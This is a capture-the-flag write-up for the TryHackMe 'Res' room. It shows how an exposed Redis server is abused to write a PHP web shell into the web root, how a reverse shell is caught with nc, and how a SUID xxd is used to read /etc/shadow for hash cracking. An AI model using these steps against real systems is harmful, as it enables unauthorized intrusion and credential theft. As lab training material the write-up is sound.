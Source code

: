 ```yaml
---
title: "TryHackMe - Res"
author: Nasrallah
description: ""
date: 2022-09-03 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, redis, suid, easy, crack, john]
img_path: /assets/img/tryhackme/res
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing [Res](https://tryhackme.com/room/res) from [TryHackMe](https://tryhackme.com). We find a misconfigured databases that we exploit to get rce on the target and then a reverse shell. Then we find a binary with suid bit giving us the ability to read any file we want which leads to getting a root shell.

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.184.71
Host is up (0.085s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

We found port 80 open running Apache web server. Let's scan all port this time : `sudo nmap -p- --min-rate 5000 -sV -T4 {Target_ip}`

```terminal
Nmap scan report for 10.10.184.71
Host is up (0.080s latency).
Not shown: 65404 closed tcp ports (reset), 129 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
6379/tcp open  redis   Redis key-value store 6.0.7
```

We found another port running `redis` version 6.0.7

### Redis

We can connect to `redis` using the following command: `redis -h {Target_ip}`

```terminal
$ redis-cli -h 10.10.184.71
10.10.184.71:6379>
```

We can run the command `info` which will give up statistics about the redis server.

```terminal
10.10.184.71:6379> info                                                       
# Server                        
redis_version:6.0.7                                                           
redis_git_sha1:00000000         
redis_git_dirty:0                                                             
redis_build_id:5c906d046e45ec07                                               
redis_mode:standalone                                                         
os:Linux 4.4.0-189-generic x86_64                                             
arch_bits:64                                                                  
multiplexing_api:epoll                                                        
atomicvar_api:atomic-builtin                                                  
gcc_version:5.4.0
process_id:618           
run_id:3e2c7a6de54cd12ab2794d6990908d5416bb48d3
tcp_port:6379                
uptime_in_seconds:1579        
uptime_in_days:0        
hz:10                         
configured_hz:10               
lru_clock:989304          
executable:/home/vianka/redis-stable/src/redis-server
config_file:/home/vianka/redis-stable/redis.conf
io_threads_active:0 

[** SNIP **]

# Keyspace
10.10.184.71:6379>
```

The section that can be useful for us is **Keyspace** which provides us with the databases and the keys available on the server. Unfortunately, we couldn't find anything in this server.

We can see that the redis server is located in the home directory of a user named `vianka`, but it's not very useful for us.

Searching on the internet for ways to get RCE using redis i found the following `article: http://reverse-tcp.xyz/pentest/database/2017/02/09/Redis-Hacking-Tips.html` that describes how to get a php webshell with the following example.

```terminal
root@Urahara:~# redis-cli -h 10.85.0.52
10.85.0.52:6379> config set dir /usr/share/nginx/html
OK
10.85.0.52:6379> config set dbfilename redis.php
OK
10.85.0.52:6379> set test "<?php phpinfo(); ?>"
OK
10.85.0.52:6379> save
OK
```

We need to make some changes in the commands above.

We know that the web server running on the target is Apache, so we need to change the directory to **/var/www/html**.

We can leave the dbfilename as it is.

We change the php code to the following one that would give us remote code execution on the target.

```php
<?php system($_GET['cmd']); ?>
```

Let's do it.

```terminal
10.10.184.71:6379> config set dir /var/www/html
OK
10.10.184.71:6379> config set dbfilename redis.php
OK
10.10.184.71:6379> set test "<?php system($_GET['cmd']); ?>"
OK
10.10.184.71:6379> save
OK
10.10.184.71:6379> 
```

Now if we can go to `http://{target_ip/redis.php?cmd=}` to execute commands.

![](1.png)

We have code execution now.

## **Foothold**

To get a reverse shell, i uploaded [Pentest Monkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)'s php code to the target.

>Don't forget to change the ip address in the code to your tun0 ip.

![](2.png)

Now we setup a listener with `nc -lvnp 1234` and request the shell.php file.

![](3.png)

We're in.

## **Privilege Escalation**

I uploaded `linpeas` to the target and run it.

![](4.png)

We find that `xxd` has suid bit, let's check [GTFOBins](https://gtfobins.github.io/gtfobins/xxd/#suid).

![](5.png)


We can run the following command to read any file in the system.

```bash
xxd {filename} | xxd -r
```

To read the shadow file for example, run `xxd /etc/shadow | xxd -r`

![](6.png)

We have vianka's hash, we can crack it using `john`.

![](7.png)

We can now change user to `vianka` and then to root.

![](8.png)


---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---
